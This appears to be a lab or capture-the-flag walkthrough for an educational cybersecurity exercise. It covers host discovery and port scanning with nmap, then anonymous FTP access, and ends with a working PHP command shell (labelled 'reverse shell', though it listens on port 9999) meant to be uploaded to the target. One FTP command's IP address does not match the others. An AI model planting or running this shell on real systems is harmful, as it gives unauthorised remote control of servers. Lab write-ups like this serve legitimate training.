 > [Project](https://github.com/01-edu/public/tree/master/subjects/cybersecurity/local)
> [Audit](https://github.com/01-edu/public/tree/master/subjects/cybersecurity/local/audit)


1. With nmap we discover open hosts
```bash
nmap -sn 192.168.1.0/24
```
It reveals that there is an host up - 192.168.1.2

2. We scan the host with nmap for open ports
```bash
   nmap 192.168.1.2
```
We can see that the host has open ports for FTP, SSH, HTTP - 21, 22, 80 respectively

3. We open the host in browser and can confirm that this host is for our exercise.
4. We connect to IP through FTP
```bash
   ftp 192.169.1.2
```
It asks for user so we try anonymous login.
We get access.

5. We see what files the ftp server contains
```bash
   ls
```
There  is life.c and template.html

6. We download both files and see that they contain nothing useful
   But we now know that the ftp server may be exploited to upload a reverse shell.

Reverse-shell
```php
<?php
        $socket = socket_create(AF_INET, SOCK_STREAM, SOL_TCP);
        socket_bind($socket, '0.0.0.0', 9999);
        socket_listen($socket, 1);
        $conn = socket_accept($socket);
        while(true) {
                if (!socket_write($conn, "$ ", 2)) exit;
                $buf = socket_read($conn, 100);
                $cmd = popen("$buf", "r");
                while (!feof($cmd)){
                        $msg = fgetc($cmd);
                        socket_write($conn, $msg, strlen($msg));
                }
        }
?>
```